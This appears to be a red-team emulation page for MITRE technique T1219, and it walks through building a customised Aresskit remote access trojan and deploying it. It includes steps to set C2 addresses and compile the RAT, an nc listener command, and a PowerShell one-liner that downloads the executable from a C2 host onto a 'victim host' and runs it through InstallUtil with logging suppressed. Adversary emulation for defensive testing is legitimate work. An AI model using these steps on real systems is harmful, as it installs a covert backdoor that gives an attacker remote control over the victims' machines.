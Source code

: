 # Remote Access Tools

---
* **ID**: T1219
* **Source**: <https://attack.mitre.org/techniques/T1219/>
---

# Details

## Customized RAT
### Create customized Aresskit
* Download the source code from [Github](https://github.com/BlackVikingPro/aresskit)
* Replace with [Program.cs](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/Program.cs) and modify all `<ip_of_C2>` and `<port_of_C2>` accordingly
* Replace with [FileHandler.cs](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/FileHandler.cs)
* Compile the program using `Debug` - `Any CPU`
* Copy file `aresskit.exe` under folder `.\aresskit\bin\Debug` and upload it to your C2 host

### Use customized Aresskit
* Start a listener on C2 host:
```
nc -lvvp <port_of_C2>
```
* Download and execute `aresskit.exe` on the victim host by leveraging [`InstallUtil`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1118/T1118.md):
```
powershell Invoke-WebRequest -Uri "http://<ip_of_C2>/aresskit.exe" -OutFile %ALLUSERSPROFILE%\aresskit.exe & C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U %ALLUSERSPROFILE%\aresskit.exe
```

# References

* <https://github.com/BlackVikingPro/aresskit>
* <https://stackoverflow.com/questions/34400546/could-not-load-file-or-assembly-operation-is-not-supported-exception-from-hres>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1118/T1118.md>
